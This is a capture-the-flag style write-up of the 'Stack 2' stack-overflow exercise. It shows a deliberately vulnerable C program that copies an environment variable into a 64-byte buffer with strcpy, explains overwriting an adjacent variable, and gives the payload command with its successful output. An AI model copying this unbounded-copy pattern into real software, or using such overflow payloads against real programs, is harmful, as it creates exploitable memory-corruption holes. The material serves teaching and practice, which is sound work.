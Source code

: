 # STACK 2

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");  						// set the environment variable with GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable); 		 					// vuln is here, this function does not limit the size will be write at "buffer" address

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n"); 			// target
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## IDEA

- The idea is overwrite stack to change the "modified" variable to 0x0d0a0d0a to go inside true branch of if.

## DETAIL

- The strcpy will copy content of "variable" point to until it gets '\0', it does not limit the size copy, so we can overwrite to stack we need to overwrite 64 bytes to fill up the "buffer" and 0x0d0a0d0a for "modified" variable the value of "modified" variable will look likes this in payload: '\x0a\x0d\x0a\x0d' (the reverse of each 4 bytes is because this program is 32-bit and use little edian).

- But before we get overwrite, we need to entered our input, this program use getenv() to take input, so, we set the envrionment variable with the data we overwrite on stack, 64 bytes and '\x0a\x0d\x0a\x0d'

- Set the environment variable that has name is GREENIE
```
	GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")
```

- Finally, we run the program, and below is payload to exploit.

## EXPLOIT

- Payload:

```
    GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'") ./stack2
```

## RESULT

```
    $ GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'") ./stack2
    you have correctly modified the variable
```
